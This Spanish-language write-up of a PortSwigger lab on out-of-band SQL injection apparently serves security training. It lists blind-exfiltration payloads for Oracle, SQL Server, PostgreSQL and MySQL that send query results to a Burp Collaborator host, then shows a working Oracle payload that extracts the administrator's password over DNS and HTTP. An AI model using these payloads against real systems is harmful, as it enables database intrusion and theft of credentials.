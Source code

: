 |DBMS|PAYLOAD|
|:----:|:----:|
|Oracle|`SELECT extractvalue(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT YOUR-QUERY-HERE)||'.YOUR-SUBDOMAIN-HERE.burpcollaborator.net/"> %remote;]>'),'/l') FROM dual`|
|Microsoft|`declare @p varchar(1024);set @p=(SELECT YOUR-QUERY-HERE);exec('master..xp_dirtree "//'+@p+'.YOUR-SUBDOMAIN-HERE.burpcollaborator.net/a"')`|
|PostgreSQL|`create OR replace function f() returns void as \$\$ <br /> declare c text;  <br /> declare p text;  <br />begin  <br />SELECT into p (SELECT YOUR-QUERY-HERE);  <br />c := 'copy (SELECT '''') to program ''nslookup '||p||'.YOUR-SUBDOMAIN-HERE.burpcollaborator.net''';  <br />execute c;  <br />END;  <br />$$ language plpgsql security definer;  <br />SELECT f();`|
|MySQL|The following technique works on Windows only:  <br /> `SELECT YOUR-QUERY-HERE INTO OUTFILE '\\\\YOUR-SUBDOMAIN-HERE.burpcollaborator.net\a'`|

en nuestro caso funciono el de **Oracle**:

```sql
'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(SELECT+password+FROM+users+WHERE+username%3d'administrator')||'.j2m0mopfd1v6e0ojq4eeb4r3wu2lqa.burpcollaborator.net/">+%25remote%3b]>'),'/l')+FROM+dual-- session=42olHtHabkYW1AnwWSXT4x2uv6GLUrT1
```

vemos que nos devuelve un 200 OK:

![foto](../Portswigger%20images/SQLi38.png)

el resultado de nuestra QUERY se encuentra en el oyente de **burp collaborator** si vamos a ver el trafico que se inetrcepta vemos unas comunicaciones **DNS** y **HTTP**, la contraseña es el siguiente valor (lo que se encuentra en el subdominio):

![foto](../Portswigger%20images/SQLi39.png)
